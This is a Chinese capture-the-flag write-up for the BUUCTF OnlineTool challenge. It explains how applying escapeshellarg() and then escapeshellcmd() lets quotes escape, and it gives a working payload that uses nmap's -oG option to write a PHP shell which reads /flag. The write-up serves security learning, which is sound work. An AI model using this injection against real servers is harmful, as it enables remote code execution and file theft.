

# BUUCTF2018-OnlineTool1

首先启动靶机并访问，看到一串源码

```
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

一堆函数，并且有没见过的函数escapeshellarg、escapeshellcmd，所以先查查这些函数


这段[代码块](https://so.csdn.net/so/search?q=代码块&spm=1001.2101.3001.7020)检查请求中是否设置了`HTTP_X_FORWARDED_FOR`头部。如果设置了，它将`REMOTE_ADDR`设置为`HTTP_X_FORWARDED_FOR`的值。这通常用于处理[Web服务器](https://so.csdn.net/so/search?q=Web服务器&spm=1001.2101.3001.7020)位于代理后面的情况。

chdir($sandbox);
chdir 函数用于改变当前的工作目录（Current Working Directory，CWD）为指定的目录。

在这里，$sandbox 是之前根据用户IP地址创建的沙盒目录的名称（通过 md5("glzjin" . $_SERVER['REMOTE_ADDR']) 计算得到的）。

这意味着 PHP 脚本的当前工作目录将被更改为用户特定的沙盒目录，后续的文件和命令将在这个目录下执行。


## escapeshellarg()

> **escapeshellarg()**将给字符串增加一个单引号并且能引用或者转义任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含[exec()](https://www.php.net/manual/zh/function.exec.php)、[system()](https://www.php.net/manual/zh/function.system.php) 和[执行运算符](https://www.php.net/manual/zh/language.operators.execution.php) 。
>
> 在 Windows 上，**escapeshellarg()** 用空格替换了百分号、感叹号（延迟变量替换）和双引号，并在字符串两边加上双引号。此外，每条连续的反斜线(`\`)都会被一个额外的反斜线所转义。

*言外之意，就是看到了一个字符串，先用单引号括起来，然后对于其中已有的引号再进行反斜线转义，并用单引号括起来进行引用。*

最后这一句告诉咱们Windows上边是绝对试不出来正确的结果的，要使用外界的PHP线上运行环境。
[菜鸟](https://www.jyshare.com/compile/1/)

## escapeshellcmd()



言外之意就是把字符串中的特殊字符使用反斜线转译掉

------

所以下边就是相应的原理

**下面回到题目，可以发现体中有一个函数`system`来执行的我们的nmap命令，由于管道等命令全都用不了了，**

**nmap有一个参数-oG可以实现将命令和结果写到文件**

**所以我们可以控制自己的输入写入文件，这里我们可以写入一句话木马链接，也可以直接命令 cat flag，构造paload：?host=' <?php echo `cat /flag`;?> -oG test.php '**

```
<?php
$host="' <?php phpinfo();?> -oG test.php '";
echo $host."                     ";
$h = escapeshellarg($host);
echo $h."                     ";
$h = escapeshellcmd($h);
echo $h."                ";
echo "                        nmap -T5 -sT -Pn --host-timeout 2 -F ".$h;
?>

```

```
' <?php phpinfo();?> -oG test.php '                     
''\'' <?php phpinfo();?> -oG test.php '\'''                     
''\\'' \<\?php phpinfo\(\)\;\?\> -oG test.php '\\'''
//下面的这个等价于
nmap -T5 -sT -Pn --host-timeout 2 -F ''\\'' \<\?php phpinfo\(\)\;\?\> -oG test.php '\\'''
=>
nmap -T5 -sT -Pn --host-timeout 2 -F \\ \<\?php phpinfo\(\)\;\?\> -oG test.php '\\'


就目前来看可以看到\都没有了只剩下了<?php phpinfo();?>
```

可以注意到，如果后边没有空格的话，`\\`就会和`php`连在一起，这个时候无法正确解析，所以必须有空格。

最终payload：

```
?host=' <?php echo `cat /flag`;?> -oG hack.php '
```

由于chdir($sandbox);，需要改变目录访问

GET方法提交后会显示当前的工作目录，然后访问url/工作目录/hack.php即可看到flag

---

## 知识点：

## escapeshellarg()

> **escapeshellarg()**将给字符串增加一个单引号并且能引用或者转义任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含[exec()](https://www.php.net/manual/zh/function.exec.php)、[system()](https://www.php.net/manual/zh/function.system.php) 和[执行运算符](https://www.php.net/manual/zh/language.operators.execution.php) 。
>
> 在 Windows 上，**escapeshellarg()** 用空格替换了百分号、感叹号（延迟变量替换）和双引号，并在字符串两边加上双引号。此外，每条连续的反斜线(`\`)都会被一个额外的反斜线所转义。

*言外之意，就是看到了一个字符串，先用单引号括起来，然后对于其中已有的引号再进行反斜线转义，并用单引号括起来进行引用。*

最后这一句告诉咱们Windows上边是绝对试不出来正确的结果的，要使用外界的PHP线上运行环境。
[菜鸟](https://www.jyshare.com/compile/1/)

## escapeshellcmd()


言外之意就是把字符串中的特殊字符使用反斜线转译掉

**这俩函数一起用并且顺序是先escapeshellarg()后escapeshellcmd()就会导致单引号逃逸**

------

## nmap -oG

- **`-oN/-oX/-oS/-oG <file>`**：以不同格式输出：普通、XML、scrIpt kIddi3和可grep格式。

**-oG该参数实现将命令和结果写到文件**

例如：

```
nmap -T5 -sT -Pn --host-timeout 2 -F <?php echo `cat /flag`;?> -oG hack.php
```


